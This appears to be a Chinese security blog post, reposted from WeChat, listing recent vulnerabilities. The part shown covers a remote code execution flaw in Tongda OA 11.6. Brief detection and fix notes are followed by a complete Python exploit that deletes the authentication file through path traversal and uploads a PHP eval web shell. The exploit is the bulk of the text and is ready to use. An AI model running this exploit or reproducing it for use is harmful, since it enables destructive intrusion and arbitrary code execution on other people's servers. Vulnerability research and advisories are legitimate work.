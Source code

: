 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzUyMTAyODYwNg==&mid=2247487222&idx=1&sn=f1c656d1ba72d4489a45d23c0a55fa98)

**点击蓝字关注我们**

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G7QqITZDkpxKI8ibVZ5Lb8wrHHTxXP7hhNYQb1YOCOXTTz8lQpdRTy2O2uic8zEKBTTDtG1guIIs7ibg/640?wx_fmt=png)

本文作者：Taoing

本文整理了本次截至 9.18 的部分漏洞以及利用方法

* * *

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5BUpAicG3zibMDvRvQJhFaWzImsiaGBAXmDLhp1pKPw9r68rGh4qUR1Jo0NIXnHLYIzOTZqzxgAeX1A/640?wx_fmt=png)  

  

  

  

  

  

1、通达 OA 11.6 RCE  

  

*   **漏洞验证：**  
    检测漏洞存在性只需要检测  
    /module/appbuilder/assets/print.php 是否存在
    
*   **漏洞危害：**  
    攻击者能够利用此漏洞达到任意代码执行
    
*   **影响版本：**  
    通达 OA 11.6（其他版本未进行尝试）
    
*   **修复建议：**  
    删掉 / module/appbuilder/assets/print.php；升级到最新
    

```
\# EXP
import requests
target="http://localhost/"
payload="<?php eval($\_POST\['hahaha'\]);?>"
print("\[\*\]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")
input("Press enter to continue")
print("\[\*\]Deleting auth.inc.php....")
url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
requests.get(url=url)
print("\[\*\]Checking if file deleted...")
url=target+"/inc/auth.inc.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
   print("\[-\]Failed to deleted auth.inc.php")
   exit(-1)
print("\[+\]Successfully deleted auth.inc.php!")
print("\[\*\]Uploading payload...")
url=target+"/general/data\_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
files = {'FILE1': ('deconf.php', payload)}
requests.post(url=url,files=files)
url=target+"/\_deconf.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
   print("\[+\]Filed Uploaded Successfully")
   print("\[+\]URL:",url)
else:
   print("\[-\]Failed to upload file")

```